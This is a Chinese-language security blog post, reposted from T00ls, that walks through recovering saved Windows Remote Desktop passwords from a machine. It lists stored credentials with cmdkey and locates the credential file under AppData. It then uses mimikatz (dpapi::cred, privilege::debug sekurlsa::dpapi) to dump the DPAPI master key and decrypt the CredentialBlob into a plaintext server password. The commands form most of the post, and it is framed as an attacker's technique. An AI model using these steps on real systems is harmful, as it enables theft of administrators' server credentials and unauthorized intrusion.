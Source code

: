 ```yaml
---
layout: post
title: 破解远程终端凭据，获取服务器密码
subtitle: 2017/10/20
date: 2017-10-20
author: FR
header-img:
catalog: true
tags:
    - windows
    - crack
    - password
---
```

# 破解远程终端凭据，获取服务器密码
- **原文转自T00ls.net [【原文链接】](https://www.t00ls.net/articles-41926.html)**

测试环境：windows 10

道友们应该碰到过管理在本地保存远程终端的凭据，凭据里躺着诱人的胴体(服务器密码)，早已让我们的大棒饥渴难耐了。
但是，胴体却裹了一身道袍(加密)，待老衲操起法器将其宽衣解带。

![pic01](https://github.com/flankeraptor/flankeraptor.github.io/tree/master/img/2017-10-20/pjyczdpjhqfwqmm_01.png)

## 0x01 凭据管理器中查看Windows凭据：TERMSRV/1xx.xxx.xxx.xx2

![pic02](https://github.com/flankeraptor/flankeraptor.github.io/tree/master/img/2017-10-20/pjyczdpjhqfwqmm_02.png)

可通过命令行获取，执行: cmdkey /list
>注意:该命令务必在Session会话下执行，system下执行无结果。

## 0x02 凭据存储在用户目录下

C:\Users\<username>\AppData\Local\Microsoft\Credentials\*，图中名为"FF359429D6F19C64BA7D3E282558EEB5"的文件即为目标凭据:TERMSRV/1xx.xxx.xxx.xx2的存储文件

![pic03](https://github.com/flankeraptor/flankeraptor.github.io/tree/master/img/2017-10-20/pjyczdpjhqfwqmm_03.png)

## 0x03 执行

`mimikatz "dpapi::cred /in:C:\Users\xx\AppData\Local\Microsoft\Credentials\FF359429D6F19C64BA7D3E282558EEB5"`

![pic04](https://github.com/flankeraptor/flankeraptor.github.io/tree/master/img/2017-10-20/pjyczdpjhqfwqmm_04.png)

pbData是凭据的加密数据，guidMasterKey是凭据的GUID: {d91b091a-ef25-4424-aa45-a2a56b47a699}。

## 0x04 执行

`mimikatz privilege::debug sekurlsa::dpapi`

![pic05](https://github.com/flankeraptor/flankeraptor.github.io/tree/master/img/2017-10-20/pjyczdpjhqfwqmm_05.png)

根据目标凭据GUID: {d91b091a-ef25-4424-aa45-a2a56b47a699}找到其关联的MasterKey，这个MasterKey就是加密凭据的密钥，即解密pbData所必须的东西。

## 0x05 拿到了MasterKey,服务器密码便唾手可得。执行解密命令

`mimikatz "dpapi::cred /in:C:\Users\xx\AppData\Local\Microsoft\Credentials\FF359429D6F19C64BA7D3E282558EEB5 /masterkey:28d1f3252c019f9cxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx16dcec8e5dbf5cd0"`

![pic06](https://github.com/flankeraptor/flankeraptor.github.io/tree/master/img/2017-10-20/pjyczdpjhqfwqmm_06.png)

解密出来的CredentialBlob即为凭据TERMSRV/1xx.xxx.xxx.xx2的服务器密码。

衣带渐宽终不悔，为伊消得人憔悴。阿弥陀佛。

## 参考:
http://www.freebuf.com/articles/network/146460.html
